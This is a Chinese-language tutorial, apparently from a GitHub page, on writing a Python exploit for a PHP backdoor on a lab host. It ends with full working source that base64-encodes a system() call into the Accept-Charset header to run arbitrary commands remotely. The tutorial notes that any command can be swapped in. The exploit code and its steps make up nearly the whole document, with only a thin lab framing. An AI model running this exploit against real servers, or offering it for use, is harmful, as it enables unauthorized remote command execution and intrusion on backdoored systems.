 # 使用Python编写一个简单的EXP
- 首先我们需要import导入两个包**request**和**base64**，他们分别用来处理请求和base64的加解码
![image](https://github.com/hecker-zz/hecker/assets/153266742/1f0f145e-839f-4327-b4ac-4808897bd9b9)

- 拿到我们后门文件的url，以我靶机为例：

![image](https://github.com/hecker-zz/hecker/assets/153266742/7cde6c29-42d6-4c52-a11c-32347af54bb8)

- 准备需要在目标机执行的cmd命令，因为请求中的命令是被base64编码的，所以我们也需要把我们的命令转成base64，转码就需要用到**base64.b64encode()** ，这里的参数需要的是**二进制**。
  ![image](https://github.com/hecker-zz/hecker/assets/153266742/579093b8-9698-4d21-9e82-0a2c0cda4371)


- 创建一个请求的头部
![image](https://github.com/hecker-zz/hecker/assets/153266742/1881085a-96f4-4098-9bb4-75b3ec1acefd)

- 发送GET请求并把**url**和**headers**使用关键字传参填入，把得到的回应做一个筛选，让其只显示执行命令的结果，不显示HTML页面，最后打印到屏幕上即可。
![image](https://github.com/hecker-zz/hecker/assets/153266742/e699c70c-cd04-4bb7-9600-9b4262ff80e4)



- 一切准备就绪，看看结果吧！
![image](https://github.com/hecker-zz/hecker/assets/153266742/97f0ebb3-ef84-433b-94c8-ab1d1f602fc3)

- 只需要更改cmd变量即可执行不同的命令
![image](https://github.com/hecker-zz/hecker/assets/153266742/3a69a700-866b-4a08-8f80-72f507ba8e88)



- 源码如下：
```python
import requests
import base64

#后门文件的url
url="http://192.168.200.148/1.php"

#创建cmd命令，并加密成base64
cmd="whoami"
cmd=f"""system("{cmd}");"""
cmd=base64.b64encode(cmd.encode()).decode()


#创建请求头部
headers={
    "User-Agent":       "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36",
    "Accept-Encoding":  "gzip,deflate",
    "Accept-Charset":   f"{cmd}"
}


#创建请求
res=requests.get(  url=url,  headers = headers)
html=res.content.decode("GBK")
html=html[0:html.find("<!DOCTYPE")]
print(html)
```